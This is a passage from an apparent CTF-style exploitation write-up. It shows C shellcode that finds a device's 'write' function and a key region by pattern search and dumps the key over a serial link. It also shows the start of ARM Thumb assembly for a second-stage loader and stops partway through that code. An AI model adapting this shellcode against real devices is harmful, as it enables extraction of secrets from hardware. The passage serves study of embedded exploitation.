 }
{% endhighlight %}


Then the piping code that finds both the address of *write* and of the *data* section to finally dump all this data on the serial link by calling the *write* function.


{% highlight c %}

typedef void (*write_func_t)(int, char *, int);
typedef char *(*findit_func_t)(char *, char *, int);

int solve(char *ret_addr, findit_func_t fx, int *data) {
  char *write_pattern = (char *)data[0];
  int n1 = data[1];
  char *key_pattern = (char *)data[2];
  int n2 = data[3];

  // +1 for thumb!
  char *write_addr = (*fx)(ret_addr, write_pattern, n1) + 1;
  char *key_addr = (*fx)(ret_addr, key_pattern, n2);
  write_func_t write_func = (write_func_t)write_addr;
  (*write_func)(1, key_addr, 0x300);
  return 123;
}
{% endhighlight %}


Ok, all is well but how do transform this into a shellcode.
With a shared library (position independent), you end up with relocation sections and similar stuff. I don't want to write an elf loader, no thanks.


So the (relatively) shortest path to victory I could think of was to have each function be self contained: all its dependencies are passed as arguments, not using .data.
Another stage will have to put the code of these functions at known locations and call them properly.

This stage is done in the assembly below:

### Stage 2
```
.section .text

.global _start

.code 16
.thumb:
.align
_start:
// Pushed n_key, pattern_key, n_write, pattern_write
// in an array on the stack
ldr %r0, n_key
push { %r0 }
adr %r0, pattern_key
push { %r0 }

ldr %r0, n_write
push { %r0 }
adr %r0, pattern_write
push { %r0 }


mov %r2, %sp

adr %r0, FUNC
ldr %r1, offset
add %r1, %r1, %r0
```